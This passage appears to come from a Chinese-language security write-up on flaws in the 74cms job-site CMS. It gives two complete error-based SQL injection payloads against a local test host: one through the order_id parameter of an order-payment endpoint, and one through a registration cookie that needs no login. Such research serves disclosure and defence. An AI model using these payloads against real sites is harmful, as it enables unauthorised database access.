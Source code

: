 注册完成以后登录前台即可

```
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a 
```

![image](../img/58d349d61a48320be90e33ede087df22.png)

## 0x07 74cms独有框架漏洞第三处

文件：74cms\upload\Application\Home\Controller\MembersController.class.php
方法：register(
是否需登录：不需要

![image](../img/fb1c4ee3b3b4460f09c0de3927aabc39.png)

```
url: 
http://74cms.test/index.php?m=&c=Members&a=register
post: 
reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

cookie:

members_uc_info[reg_type]=1;members_uc_info[utype]=2;members_uc_info[mobile][0]=match;members_uc_info[mobile][1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a; `headers:

Content-Type: application/x-www-form-urlencoded

X-Requested-With: XMLHttpRequest` 
```
